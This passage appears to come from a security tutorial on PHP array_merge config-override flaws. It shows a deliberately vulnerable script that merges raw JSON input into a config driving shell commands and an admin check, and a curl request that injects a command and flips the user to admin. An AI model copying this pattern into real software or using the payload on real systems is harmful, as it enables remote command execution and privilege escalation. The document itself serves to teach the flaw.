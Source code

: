 ```php
        echo "[-] Is NOT admin\n";
    }
}
```

And the following array merging logic using built-in merge function `array_merge`:

```php
// $userInputJson = '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}';
$userInputJson = file_get_contents('php://input');
if (!empty($userInputJson)) {
    echo "[*] Before merging:\n";
    print_r($config);
    healthCheck($config);
    isAdmin($config);
    
    $userInputObject = json_decode($userInputJson, $associative=true);
    $mergedConfig = array_merge($config, $userInputObject);
    
    echo "\n[*] After merging:\n";
    print_r($mergedConfig);
    healthCheck($mergedConfig);
    isAdmin($mergedConfig);
}
```

> Note: The parsed JSON data must be converted into an associative array, otherwise `array_merge` can't merge an array with a `stdClass` object instance.

The attacker can overwrite the `$config` associative array key's value:

```shell
└> curl -X POST http://localhost:8000/merge.php --data '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}'
[*] Before merging:
Array
(
    [healthCheckCommands] => Array
        (
            [0] => ping -c 1 127.0.0.1
        )

    [username] => not_admin
)
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.024/0.024/0.024/0.000 ms
[-] Is NOT admin

[*] After merging:
Array
(
    [healthCheckCommands] => Array
        (
            [0] => echo RCE gadget executed!
        )

    [username] => admin
)
RCE gadget executed!
[+] Is admin
```
